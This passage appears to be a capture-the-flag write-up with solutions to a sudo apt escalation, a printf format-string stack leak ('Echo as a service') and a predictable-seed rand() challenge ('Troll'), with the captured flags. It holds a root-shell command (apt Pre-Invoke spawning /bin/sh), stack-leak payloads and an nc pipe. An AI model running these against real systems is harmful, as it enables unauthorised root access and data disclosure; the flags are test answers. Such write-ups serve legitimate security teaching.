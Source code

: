 ```bash
$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
...
$ whoami
root
$ cat /root/flag.txt
gigem{...}
```

🏁 __gigem{y0u_w0u1d_7h1nk_p3opl3_W0u1d_Kn0W_b3773r}__{:.spoiler}

---

# Pwn

## Echo as a service

> Echo as a service (EaaS) is going to be the newest hot startup! We've tapped a big market: Developers who really like SaaS.

This was a basic `printf` format exploitation

use "%lx %lx %lx %lx ..." to extract the content of the stack where there flag was previously read with fgets().

Inverted order of bytes which are read in little endian and convert to string.

🏁 __gigem{3asy_f0rmat_vuln1}__{:.spoiler}

## Troll

> There's a troll who thinks his challenge won't be solved until the heat death of the universe.

Export the number generator from the decompiled c code from ghidra and compile it on its own.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>

void main() {
  srand((uint)time((time_t *)0x0));

  for (int i = 0; i < 100; i++) {
    printf("%d\n", (rand() % 100000 + 1));
  }
}
```

Execute the `nc` command at the same time of the extracted number generator.

```bash
./num_gen | nc <ip> <port>
```

🏁 __gigem{Y0uve_g0ne_4nD_!D3fe4t3d_th3_tr01L!}__{:.spoiler}

